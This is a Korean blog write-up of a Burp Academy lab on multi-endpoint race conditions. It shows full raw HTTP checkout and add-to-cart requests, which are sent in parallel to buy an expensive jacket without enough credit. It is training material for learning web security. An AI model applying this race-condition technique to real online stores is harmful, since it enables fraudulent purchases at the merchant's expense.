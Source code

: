 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Multi-endpoint race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 2023년 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 이 문제는 여러개의 엔드포인트에 동시에 요청을 보내는 방식의 레이스 컨디션(Multi-endpoint race conditions) 문제이다.
- 예를 들면, 장바구니에 상품을 넣고 구매를 진행하는데, 구매가 완료되기 전에 상품을 하나 더 넣으면 어떻게 될까? 레이스 컨디션에 취약한 EC사이트라면 여러개의 상품이 구매되는 결과가 될 것이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: PRACTITIONER (보통)

# Multi-endpoint collisions
- 이름 그대로 여러개의 엔드포인트가 조합되면 레이스 컨디션이 발생할 수 있는 상황을 말한다. 
- 예를 들면, 장바구니에 담은 상품을 결제할 때, 결제하는 타이밍과 거의 동시에 장바구니 추가 요청을 보내면 어떻게 될까? 결제는 하나의 상품에 대해서 이루어졌는데 추가된 상품도 같이 구매될 수도 있다. 

# 문제 개요

```
This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log into your account with the following credentials: wiener:peter.

Note
Solving this lab requires Burp Suite 2023.9 or higher.

Tip
When experimenting, we recommend purchasing the gift card as you can later redeem this to avoid running out of store credit.
```

# 살펴보기, 어떻게 풀지 생각해보기 
로그인하면 다음과 같은 화면이 나타난다. 계정의 잔고는 100달러가 있고, 쓸 수 있는 Gift card가 주어지지 않았다. 사야하는 레더자켓은 1330불정도 한다. 음.. 

![로그인후 모습](/images/burp-academy-race-condition-3-1.png)

1. Giftcard는 상품으로 팔고 있다. 재킷바로 옆에 있다. Giftcard를 구매해보면 다음과 같이 나온다. 
10달러로 10달러 충전할 수 있는 카드를 산 셈이다. 

![기프트카드구매후 모습](/images/burp-academy-race-condition-3-2.png)

Code: zrfKg5KWcx

2. Giftcard를 사용하는 엔드포인트에 레이스 컨디션 취약점이 있는지 확인해보자. 만약 취약점이 있다면 동일한 코드를 여러번 사용할 수 있을 것이다. 이를 통해 잔고를 불릴 수 있을 것이다. 만약 13330불 이상으로 충전할 수 있다면 이 것만으로도 문제를 풀 수 있을 것이다. 

3. 하나더 생각할 수 있는 것은 결제를 하는 타이밍에 장바구니에 재킷을 추가하는 타입의 레이스컨디션이다. 싼 아이템을 구매하면서 동시에 장바구니에 재킷을 추가한다면 재킷도 함께 구매되지 않을까.

# Giftcard 동시 사용가능할지 테스트 

1. Giftcard를 한번 사용해본다. 

![My Account페이지](/images/burp-academy-race-condition-3-3.png)

Gitfcard를 사용하는 요청은 다음과 같다. 

```http
POST /gift-card HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=qOfJZydKrg6FkUwyTGIbknQyr4CMCxQx&gift-card=zrfKg5KWcx

```

이 때의 응답이다. 

```http
HTTP/2 302 Found
Location: /my-account
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

2. 그러면 Giftcard를 한장 더 사서 레이스 컨디션을 시도해본다. 
Single Packet Attack 테크닉으로 몇 번 시도해보면 레이스컨디션이 안되는 것을 알 수 있다. 두번째 요청부터는 400응답을 돌려준다. 

![레이스컨디션실패](/images/burp-academy-race-condition-3-4.png)

# 결제 타이밍에 장바구니 추가하기 테크닉 
결제를 하는 요청과 장바구니에 추가하는 요청을 동시에 보내는 방법이다. 이를 위해서 각각의 요청을 준비한다. 

## 싼 상품 결제 요청 
장바구니에 있는 아이템을 결제 하는 요청이다. 

```http 
POST /cart/checkout HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/cart
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=qOfJZydKrg6FkUwyTGIbknQyr4CMCxQx
```


## 레더재킷 장바구니에 추가하기 
장바구니에 추가하는 요청이다. 구매해야할 레더재킷의 productId는 1이므로 1을 지정한다.

```http 
POST /cart HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

productId=1&redir=PRODUCT&quantity=1
```

## 준비 
장바구니에 뭔가 싼 상품이나 Giftcard를 추가해둔다. 

## 공격
위의 두 요청을 Reapeter에서 그룹으로 묶어서 Single Packet Attack을 수행한다.  (Send 셀렉트박스에서 Send Group in parallel (single packet attack) 을 선택한다.)

그리고 웹 페이지를 재로딩하면 문제가 풀렸다는 메세지가 표시된다. 레이스 컨디션에 성공한 것이다! 이 레이스 컨디션은 카트에 추가하는 것보다 구매를 하는 요청이 아주 조금더 빨리 서버에 도달할 필요가 있다. 따라서 경우에 따라서는 실패할 수도 있다. 그럴 때는 될 때까지 재시도하면 된다. 이번에는 운이 좋아서 한번에 성공했다. 

![Multi-endpoint 문제풀이성공](/images/burp-academy-race-condition-3-success.png)